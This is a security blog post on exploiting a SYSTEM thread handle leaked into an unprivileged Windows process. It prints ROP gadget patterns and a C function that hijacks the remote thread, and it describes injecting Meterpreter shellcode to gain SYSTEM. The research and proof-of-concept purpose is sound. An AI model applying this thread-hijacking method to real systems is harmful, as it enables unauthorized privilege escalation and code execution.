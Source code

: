 ```yaml
---
layout: post
title: Whoops… I dropped my SYSTEM thread HANDLE
date: '2024-10-10 00:00:00'
img_path: /assets/img/2024-10-10/
categories: ['Windows', 'Binary']
tags: []
---
```


I recently came across an interesting finding from [PrivescCheck](https://github.com/itm4n/PrivescCheck), the tool reported an exploitable leaked thread handle. This is when a privileged process leaks a handle (in this case a thread handle) into an unprivileged process, effectively allowing the unprivileged user to gain access to the privileged handle. These must be manually investigated and while mine was unfortunately a false positive, I still wanted to understand how one would exploit this vulnerability.

## Recreating the Vulnerability

You might be wondering how this happens? Well if you look at the [CreateProcessA](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) documentation, you will see:

> bInheritHandles - If this parameter is TRUE, each inheritable handle in the calling process is inherited by the new process.

So if a SYSTEM service created a process inside the user’s desktop with [CreateProcessAsUserA](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera), and set `bInheritHandles` to TRUE, all inheritable handles within the SYSTEM process are now also available inside the user process.

I recreated this exact setup with <https://github.com/Acebond/LeakyService>. This service will pop-up a cmd.exe inside the user’s desktop with a leaked SYSTEM thread handle.

## Exploitation the Wrong Way

A [bunch of blogs](https://dronesec.pw/blog/exploiting-leaked-process-and-thread-handles/) will say this can be exploited with `NtImpersonateThread`. The idea is that the low privileged user can impersonate the thread token, to gain code execution with a SYSTEM thread token. While the blog mentioned above is excellent, I call bullshit and everyone who says this can PoC \|\| GTFO. An example of what they _think_ can be done is here: <https://github.com/Acebond/NtImpersonateThreadMethod>.

This method fails, and `NtImpersonateThread` only creates a thread running with an [impersonation level](https://learn.microsoft.com/en-us/windows/win32/secauthz/impersonation-levels) of `SecurityIdentification`. The attack requires `SeImpersonatePrivilege` privilege, which no low privileged user should ever had, otherwise they would hardly be low privileged. If the low privileged user did have `SeImpersonatePrivilege`, this would work, and the newly created thread would be running with a SYSTEM token with an impersonation level of `SecurityImpersonation`.

## Exploitation the Right Way

I couldn't find any other way to exploit this other than doing ROP with `SetThreadContext`, `GetThreadContext`, `SuspendThread`, and `ResumeThread`.

The Internet seems to call this “ghost writing” since no process level manipulation such as `ReadProcessMemory`, `WriteProcessMemory`, and `CreateRemoteThread` are performed, because, well, we can’t - we only have access to the thread, not the process.

I based my PoC heavily on <https://github.com/fern89/ghostwriting-2>. This was about the best PoC for ghost writing I could find, except it was only for 32bit.

The ROP requires 3 gadgets:

1. A `ret` gadget. This pops an address off the stack and jumps to that address. We use it to execute function after setting up the parameters.
2. A `jmp $ gadget`. This jumps backward by 2 bytes and causes `rip` to jump back to itself, creating an infinite loop. We use it to stop the thread from executing past our push gadget and into the unknown.
3. A `push rdx; call rax gadget`. This will push `rdx` onto the stack, a value we control, and then be used to call `rax` which will hold the address of our `jmp $` infinite loop gadget. We use it to push data to the stack, and effectively halt the thread from doing anything meaningful.

The 3rd gadget could be anything like:

```
push reg1; call reg2
push reg1; jmp reg2
push reg1; push reg2; ret
mov [reg1]; ret
mov [reg1]; call reg2
mov [reg1]; jmp reg2
```

With these gadgets, and a **VERY** good (nobody seems to talk about the shadow space (except <https://retroscience.net/x64-assembly.html>, thank you) understanding of the Windows 64bit calling convention, we can execute a function in the remote thread like so:

```
DWORD64 CallFuncRemote(HANDLE hThread, Gadgets gadgets, DWORD64 funcAddr, BOOL returnVal, const uint64_t count, const DWORD64 parameters[]) {

    // 1. Check/Fix Stack alignment
    CONTEXT ctx = { .ContextFlags = CONTEXT_FULL };

    SuspendThread(hThread);
    GetThreadContext(hThread, &ctx);

    int isStackAlignmentGood = ((ctx.Rsp + 0x08) == ((ctx.Rsp + 0x08) & ~0x0F));
    int isEvenPUSHParameters = ((count <= 4) || (count % 2 == 0));

    ResumeThread(hThread);

    if (isStackAlignmentGood ^ isEvenPUSHParameters) {
        PushData(hThread, gadgets, 0x00);
    }

    // 2. PUSH function parameters
    for (uint64_t i = count; i > 4; i--) {
        PushData(hThread, gadgets, parameters[i-1]);
    }

    // 3. PUSH shadow space if required
    if (count > 4) {
        PushData(hThread, gadgets, 0x00);
        PushData(hThread, gadgets, 0x00);
        PushData(hThread, gadgets, 0x00);
        PushData(hThread, gadgets, 0x00);
    }

    // 4. PUSH jmps save return pointer
    PushData(hThread, gadgets, gadgets.jmps);

    // 5. PUSH function to call address
    PushData(hThread, gadgets, funcAddr);

    // 6. Execute with ret gadget
    Slay(hThread, gadgets, 
        (count > 0 ? parameters[0] : 0),
        (count > 1 ? parameters[1] : 0),
        (count > 2 ? parameters[2] : 0),
        (count > 3 ? parameters[3] : 0)
    );

    // 7. Ensure the thread _did_ something
    WaitUnblock(hThread);

    // 8. Get return value if required
    return (returnVal ? GetReturnValue(hThread, gadgets) : 0);
}
```
Full code here: <https://github.com/Acebond/GhostWrite64>

We use this to `VirtualAlloc` some memory in the privileged process, write some shellcode to that memory with a named pipe, and then call `CreateThread` to execute the shellcode, and lastly, restore the hijacked thread back to whatever it was doing. The full PoC is on [GitHub](https://github.com/Acebond/GhostWrite64) and has some cool tricks like figuring out if the target thread has been scheduled on the CPU yet, and how to determine if we need to realign the stack.

**PoC \|\| GTFO**

In the screenshot below, LeakyService is running, and will spawn a cmd.exe as the lowpriv user. The cmd.exe (PID 9060 in this example) has a leaked thread handle to the LeakyService.exe which is running as SYSTEM.

![System Informer showing the leaked handle](/assets/img/2024-10-10/process.png)

To exploit this, I ran the GhostWrite PoC inside the cmd.exe (you’d otherwise have to `OpenProcess` and `DuplicateHandle`); this causes the leaked handle to leak again from cmd.exe into GhostWrite.exe, because cmd creates process with inherit handles set to TRUE.

![PoC getting a Meterpreter shell](/assets/img/2024-10-10/poc.png)

GhostWrite then hijacks the SYSTEM thread using the leaked handle and the ROP method described above, creates its own thread inside the SYSTEM process to run a Meterpreter shellcode, and seamlessly restores the original thread execution. Easy-peasy lemon squeezy.